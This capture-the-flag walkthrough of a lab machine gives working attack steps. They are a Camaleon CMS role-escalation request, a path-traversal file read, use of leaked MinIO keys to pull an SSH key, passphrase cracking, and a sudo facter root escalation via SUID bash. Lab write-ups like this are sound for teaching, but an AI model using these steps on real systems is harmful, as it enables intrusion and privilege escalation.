

Facts

Recon
Starting with nmap. SSH and an nginx web server on 80, plus an unusual service on 54321 that identifies itself as MinIO, an S3-compatible object store.
[facts] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap 10.129.7.46
Nmap scan report for facts.htb (10.129.7.46)
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.26.3 (Ubuntu)
|_http-title: facts
54321/tcp open unknown
| fingerprint-strings:
| GetRequest:
| HTTP/1.0 400 Bad Request
| Server: MinIO
| X-Amz-Request-Id: 188FE672A53B9910
| <?xml version="1.0" encoding="UTF-8"?>
| <Error><Code>InvalidRequest</Code>...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe site on 80 points at facts.htb, so I added it to /etc/hosts. The app is a Ruby on Rails site running Camaleon CMS (it sets a _cms_session cookie). The admin panel lives at /admin.
Exploitation
Camaleon CMS on this build is vulnerable to CVE-2025-2304 (Tenable TRA-2025-09), a mass-assignment flaw in the user update flow. The user parameters are bound straight to the model, so appending password[role]=admin to the profile request promotes the account to administrator, no authorization check on the role field.
After registering a normal account and replaying the update request with that extra parameter, I have a full admin session on the CMS.
&password[role]=adminThe same admin access also opens the authenticated media-upload RCE described in the same advisory (a path traversal that drops a Ruby file into config/initializers/); expl.py automates it, uploading command_exec.rb via /admin/media/upload with the folder field set to ../../../config/initializers/. That is one way onto the box, but there is a faster route: the admin settings leak credentials to the object store.
Browsing to /admin/settings/site as admin reveals a set of AWS-style keys, which are really the MinIO access and secret keys for the service on 54321:
access: AKIA370C10C50E3BA5A6
secret: 6ggZKT5qaTsjtY7tPYl+T5Wrco/gIExUxpIyFtEMConfiguring the AWS CLI with those keys and pointing it at the MinIO endpoint lists two buckets:
[/tmp] aws configure
AWS Access Key ID [None]: AKIA370C10C50E3BA5A6
AWS Secret Access Key [None]: 6ggZKT5qaTsjtY7tPYl+T5Wrco/gIExUxpIyFtEM
Default region name [None]: us-east-1
[/tmp] aws s3api list-buckets --endpoint-url http://facts.htb:54321
{
"Buckets": [
{ "Name": "internal", "CreationDate": "2025-09-11T12:06:52.640000+00:00" },
{ "Name": "randomfacts", "CreationDate": "2025-09-11T12:06:52.603000+00:00" }
],
"Owner": { "DisplayName": "minio", "ID": "02d6176db174dc93cb1b899f7c6078f08654445fe8cf1b6ce98d8855f66bdbf4" }
}The internal bucket mirrors a home directory, and it contains an .ssh folder with a private key:
[facts] aws s3 ls s3://internal --endpoint-url http://facts.htb:54321
PRE .ssh/
2026-01-08 15:45:13 220 .bash_logout
2026-01-08 15:45:13 3900 .bashrc
2026-01-08 15:47:17 807 .profile
[facts] aws s3 ls s3://internal/.ssh/ --endpoint-url http://facts.htb:54321
2026-01-31 16:07:23 82 authorized_keys
2026-01-31 16:07:23 464 id_ed25519
[facts] aws s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519 --endpoint-url http://facts.htb:54321To find which account the key belongs to, the admin panel also exposes a private-file download that does not sanitise the path, so it doubles as an arbitrary file read. Pulling /etc/passwd shows the local users:
GET /admin/media/download_private_file?file=../../../../../../etc/passwd
trivia:x:1000:1000:facts.htb:/home/trivia:/bin/bash
william:x:1001:1001::/home/william:/bin/bashPost Exploitation
The downloaded id_ed25519 is encrypted with a passphrase. I converted it with ssh2john and cracked it against rockyou.txt:
[facts] john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Loaded 1 password hash (SSH, SSH private key [MD5/bcrypt-pbkdf/[3]DES/AES 32/64])
dragonballz (id_ed25519)
1g 0:00:01:07 DONE (2026-01-31 16:49)
[facts] john --show hash.txt
id_ed25519:dragonballzThe key logs in as trivia using dragonballz as the passphrase, which lands the user flag:
[facts] ssh -i id_ed25519 trivia@facts.htb
Enter passphrase for key 'id_ed25519': dragonballz
-bash-5.2$ id
uid=1000(trivia) gid=1000(trivia) groups=1000(trivia)
-bash-5.2$ cat ~/user.txtPrivilege Escalation
Checking sudo rights, trivia can run facter as root with no password:
-bash-5.2$ sudo -l
User trivia may run the following commands on facts:
(ALL) NOPASSWD: /usr/bin/facterfacter is Puppet's system inventory tool. It supports external facts, which are just executable scripts loaded from a directory, and it runs them as the invoking user. Since we invoke it through sudo, any script we hand it executes as root. I dropped a one-line external fact that sets the SUID bit on bash, pointed facter at it, then dropped into a root shell:
-bash-5.2$ mkdir -p /tmp/facts
-bash-5.2$ echo '#!/bin/bash
chmod +s /bin/bash' > /tmp/facts/root.sh
-bash-5.2$ chmod +x /tmp/facts/root.sh
-bash-5.2$ sudo /usr/bin/facter --external-dir /tmp/facts
-bash-5.2$ /bin/bash -p
bash-5.2# id
uid=1000(trivia) gid=1000(trivia) euid=0(root) groups=1000(trivia)
bash-5.2# cat /root/root.txt